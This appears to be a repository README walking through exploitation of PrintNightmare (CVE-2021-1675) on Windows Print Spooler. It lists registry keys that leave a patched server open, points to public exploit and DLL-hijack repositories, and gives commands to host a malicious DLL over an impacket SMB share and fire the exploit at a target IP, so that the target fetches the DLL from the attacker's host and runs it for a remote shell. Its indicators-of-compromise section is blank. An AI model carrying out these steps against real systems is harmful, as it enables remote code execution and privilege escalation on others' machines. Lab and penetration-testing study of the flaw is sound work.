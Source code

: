 # PrintNightmare (CVE-2021-1675)
## Summary

PrintNightmare is a critical vulnerability that allows an attacker to obtain remote code execution and/or privilege escalation against any target Windows machine using the Spooler service that is enabled by default. While Microsoft has issued a patch for this vulnerability, if a few registry keys are present, then the target will still be vulnerable despite having the patch.

## Prerequisites

Either a Windows server that doesn't have the patch released on July 1st, 2021, or must have some special registry keys added. Further, some form of SMB server and a custom compiled DLL is required to exploit this vulnerability. This exploit requires credentials to operate, even a low-privilege user may work.

## Setup

Once the server is installed, and *if* the server contains the patch, then the following registry keys need to be installed:

```registry
HKLM\SOFTWARE\Policies\Microsoft\Windows NT\Printers\PointAndPrint\RestrictDriverInstallationToAdministrators REG_DWORD 0x0
HKLM\SOFTWARE\Policies\Microsoft\Windows NT\Printers\PointAndPrint\NoWarningNoElevationOnInstall REG_DWORD 0x1
```

![registry entries](./images/Pasted%20image%2020230606093107.png)

## Execution

### Method 1 - Cube0x0's Repo

Clone [Cube0x0's repo](https://github.com/cube0x0/CVE-2021-1675) (https://github.com/cube0x0/CVE-2021-1675), as well as [this DLL repo](https://github.com/NukingDragons/DllHijacks) (https://github.com/NukingDragons/DllHijacks). Pick the DLL you want from the DLL repo and compile it on Windows, or using MinGW following the instructions in the README.

Once you have the DLL of choice compiled, and whatever listener/method of receiving or connecting to the shell configured, use impackets SMB server to host the file, and run the following commands:

```bash
impacket-smbserver -smb2support share /path/to/folder/with/DLL
```

Finally, exploit the target:

```bash
python3 CVE-2021-1675 domain.com/username:'password'@target-ip '\\your-ip\share\your.dll'
```

![successful connection](./images/Pasted%20image%2020230606100148.png)

#### Indicators of Compromise

TODO
